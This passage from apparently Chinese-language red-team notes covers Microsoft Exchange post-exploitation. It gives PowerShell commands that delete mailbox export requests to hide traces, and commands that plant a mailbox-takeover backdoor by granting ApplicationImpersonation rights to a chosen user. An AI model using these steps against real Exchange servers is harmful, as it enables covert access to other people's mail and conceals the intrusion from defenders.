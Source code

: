 删除导出日志记录

> Powershell.exe -psconsolefile "C:\\\\program files\\\\Microsoft\\\\Exchange Server\\\\v15\\\\Bin\\\\exshell.psc1" -command "remove-MailboxExportRequest"

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689501988547-5a287c81-b0bf-479a-a2b3-4540ec555734.png)

Identity参数为上图中的Mailbox参数

> Powershell.exe -psconsolefile "C:\\\\program files\\\\Microsoft\\\\Exchange Server\\\\v15\\\\Bin\\\\exshell.psc1" -command "remove-MailboxExportRequest -Identity 'vvvv1.com/Users/Administrator\\MailboxExport' -Confirm:$false"

### 邮箱接管后门种植

#### 配置模拟权限

<https://4sysops.com/archives/exchange-impersonation-grant-permissions-to-service-accounts/>

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689579761782-92c8caef-6de6-4164-80fc-eda77e01dae1.png)

添加如下的权限即可。

验证是否有模拟权限：

<https://192.168.52.139/ecp/exchange1@vvvv1.com/>

具体利用需要结合脚本文件。

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689579815471-7e86130b-de23-496a-8231-68fa09b67288.png)

查看具有模拟权限的成员

> Get-ManagementRoleAssignment -Role:ApplicationImpersonation
> 
> Powershell.exe -psconsolefile "C:\\\\program files\\\\Microsoft\\\\Exchange Server\\\\v15\\\\Bin\\\\exshell.psc1" -command "Get-ManagementRoleAssignment -Role:ApplicationImpersonation"

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689582553643-576d5cf4-5760-4bbf-8bb9-8d41568b407a.png)

创建一个新的具有模拟权限的成员

> New-ManagementRoleAssignment -Role:ApplicationImpersonation -User: exchange1@vvvv1.com

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689582951271-c6e96fdc-2267-4c2b-aa76-c1a0756c7d8a.png)

删除新添加模拟权限的成员

> Remove-ManagementRoleAssignment "ApplicationImpersonation-admins"

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689584583389-2f0579d6-ffc4-4638-a3cd-811c05d54688.png)

#### 配置fullaccess权限

[https://blog.csdn.net/weixin\_34123613/article/details/90079532](https://blog.csdn.net/weixin_34123613/article/details/90079532)
